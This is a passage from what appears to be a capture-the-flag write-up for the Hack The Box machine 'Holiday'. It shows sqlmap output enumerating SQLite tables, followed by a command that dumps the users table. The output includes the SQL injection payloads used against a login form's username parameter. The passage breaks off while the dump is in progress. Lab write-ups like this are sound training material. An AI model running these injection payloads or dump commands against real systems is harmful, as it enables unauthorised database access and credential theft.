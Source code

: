 ```text
[14:11:12] [INFO] retrieving the length of query output
[14:11:12] [INFO] resumed: 5
[14:11:12] [INFO] resumed: notes
[14:11:12] [INFO] retrieving the length of query output
[14:11:12] [INFO] resumed: 8
[14:11:12] [INFO] resumed: bookings
[14:11:12] [INFO] retrieving the length of query output
[14:11:12] [INFO] resumed: 8
[14:11:12] [INFO] resumed: sessions
Database: SQLite_masterdb
[5 tables]
+-----------------+
| bookings        |
| notes           |
| sessions        |
| sqlite_sequence |
| users           |
+-----------------+
```

Now we have the tables let's dump the contents of the user one:

```text
root@kali:~/htb/holiday# sqlmap -r login.req --level=5 --risk=3 -T users --dump --dbms=SQLite --threads=10
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.6.6#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:43:52 /2020-06-14/
[22:43:52] [INFO] parsing HTTP request from 'login.req'
[22:43:53] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin") OR NOT 3120=3120 AND ("lOLW"="lOLW&password=admin

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=admin") OR 4218=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) AND ("ZgnW"="ZgnW&password=admin
---
[22:43:54] [INFO] testing SQLite
[22:43:54] [INFO] confirming SQLite
[22:43:54] [INFO] actively fingerprinting SQLite
[22:43:54] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[22:43:54] [INFO] retrieving the length of query output
[22:43:54] [INFO] resumed: 103
[22:43:54] [INFO] resumed: CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT(1))
[22:43:54] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
[22:43:54] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[22:43:54] [INFO] retrieved: 1
[22:43:55] [INFO] retrieving the length of query output
[22:43:55] [INFO] retrieved: 1
[22:43:56] [INFO] retrieved: 1
[22:43:57] [INFO] retrieving the length of query output
[22:43:57] [INFO] retrieved: 1
[22:43:57] [INFO] retrieved: 1
```